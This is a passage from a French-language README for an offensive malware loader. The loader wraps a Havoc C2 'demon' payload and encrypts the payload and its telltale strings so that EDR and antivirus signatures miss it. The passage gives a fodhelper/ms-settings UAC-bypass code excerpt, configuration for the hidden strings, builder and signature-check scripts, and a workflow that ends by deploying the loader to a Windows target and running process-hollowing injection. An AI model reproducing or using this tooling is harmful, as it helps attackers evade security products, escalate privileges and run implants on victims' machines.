   strip loader.exe       # Supprime debug symbols
   rm obj/*.o            # Cleanup temporaires
   ```

**Output:** `loader.exe` (toujours le même nom, ~150KB stripped)

---

4. **Résultat**
   ```
   loader.exe (~453 KB) avec:
   ✅ Payload chiffré en AES-256
   ✅ Strings EDR chiffrées
   ✅ Aucune signature plaintext
   ```

### Configuration des Strings EDR

**Fichier:** `edr_strings.conf`
```ini
fodhelper_path:C:\Windows\System32\fodhelper.exe
registry_path:Software\Classes\ms-settings\shell\open\command
delegate_execute:DelegateExecute
shell_verb:open
default_process:C:\Windows\System32\svchost.exe
```

**Modification:** Éditer avant de lancer builder.sh
```bash
# Ajouter une nouvelle string
echo "new_var:C:\path\to\something" >> edr_strings.conf

# Puis relancer le builder
./builder.sh demon.x64.exe loader.exe x64
```

## 🔐 Chiffrement du Payload & Strings

### Format du Chiffrement

**Payload** (avec seed):
```
[seed (42 bytes - aléatoire)] + [ciphertext AES-256-CBC]
```

**Strings EDR** (sans seed - utilise seed du payload):
```
[ciphertext AES-256-CBC uniquement]
```

### Processus de Déchiffrement Runtime

```
Phase 1: Déchiffrement du payload
  ├─ Read seed (42 bytes)
  ├─ PBKDF2(seed) → key (32b) + iv (16b)
  └─ AES-256-CBC decrypt → Payload plaintext

Phase 2: Déchiffrement inline des strings EDR
  ├─ easCipher42 utilise même key/iv
  ├─ Déchiffre registry_path à la demande (UAC mode)
  ├─ Déchiffre delegate_execute à la demande
  ├─ Déchiffre shell_verb à la demande
  ├─ Déchiffre default_process à la demande
  └─ Déchiffre fodhelper_path à la demande (UAC mode)
```

### Exemple: Déchiffrement Inline (uac_bypass.cpp)

```cpp
// Constructor reçoit easCipher42 par référence
UACBypass(const std::string& cmd,
          const uint8_t* fh_enc, size_t fh_enc_size,
          easCipher42& cipher, bool verbose)

// À l'exécution:
std::vector<uint8_t> registry_path_plain =
  cipher.decrypt(registry_path_enc, registry_path_enc_len);
// → "Software\Classes\ms-settings\shell\open\command"

std::vector<uint8_t> delegate_execute_plain =
  cipher.decrypt(delegate_execute_enc, delegate_execute_enc_len);
// → "DelegateExecute"
```

## 🐛 Debugging

### Activer Verbose
```bash
.\loader.exe -v
```

Affiche:
- Vérifications anti-analysis
- Clés/IVs
- Parsing PE (arch, ImageBase)
- Allocation mémoire (adresses)
- Sections écrites
- Relocations
- Contexte thread

### Logs Importants
```
[+] Payload ImageBase: 0x140000000      ← PE bien déchiffré
[+] Memory allocated at: 0x140000000    ← Alloc ok
[+] Relocations fixed                   ← Pas de crash reloc
[+] Process created: PID 5678           ← Process créé
[+] SUCCESS                             ← Exécution ok
```

## 🚨 Vérification Anti-Signature

### Avant et Après Chiffrement

```bash
# AVANT (strings plaintext)
strings demon.x64.exe | grep -i "DelegateExecute"
# Result: DelegateExecute (à éviter!)

# APRÈS (avec builder.sh)
strings loader.exe | grep -i "DelegateExecute"
# Result: (vide - chiffré ✅)

strings loader.exe | grep -i "Software"
# Result: (vide - chiffré ✅)

strings loader.exe | grep -i "ms-settings"
# Result: (vide - chiffré ✅)
```

### Vérification Complète

```bash
#!/bin/bash
echo "=== Vérification signatures EDR ==="
for sig in "DelegateExecute" "Software" "ms-settings" "fodhelper" "svchost"; do
  count=$(strings loader.exe | grep -ci "$sig")
  if [ $count -eq 0 ]; then
    echo "[✅] $sig: Chiffré"
  else
    echo "[-] $sig: PLAINTEXT (non chiffré!)"
  fi
done
```

## 🔗 Intégration Complète

### Workflow Standard

```
1. Générer/Obtenir payload Havoc
   demon.x64.exe ou demon.x64.bin

2. Éditer configuration strings EDR
   vim edr_strings.conf

3. Lancer builder automatisé
   ./builder.sh demon.x64.exe loader.exe x64

4. Vérifier absence signatures
   strings loader.exe | grep -i "DelegateExecute"  # Doit être vide

5. Déployer loader.exe
   Transférer vers cible Windows

6. Exécuter injection
   ./loader.exe -m hollow -v  # Ou autre mode
```

### Exemple Complet

```bash
#!/bin/bash
set -e

PAYLOAD="demon.x64.exe"
OUTPUT="loader_final.exe"

echo "[*] Étape 1: Configuration strings EDR"
cat > edr_strings.conf << EOF
fodhelper_path:C:\Windows\System32\fodhelper.exe
registry_path:Software\Classes\ms-settings\shell\open\command
delegate_execute:DelegateExecute
shell_verb:open
default_process:C:\Windows\System32\svchost.exe
EOF

echo "[*] Étape 2: Lancer builder"
./builder.sh "$PAYLOAD" "$OUTPUT" x64

echo "[*] Étape 3: Vérification signatures"
if strings "$OUTPUT" | grep -iq "DelegateExecute"; then
    echo "[-] ERREUR: DelegateExecute en plaintext!"
    exit 1
fi

echo "[+] Build réussi: $OUTPUT"
ls -lh "$OUTPUT"
```

---

**Version:** 2.0 | **Date:** 2025-12-30 | **Support:** PE x64 + 4 modes d'injection
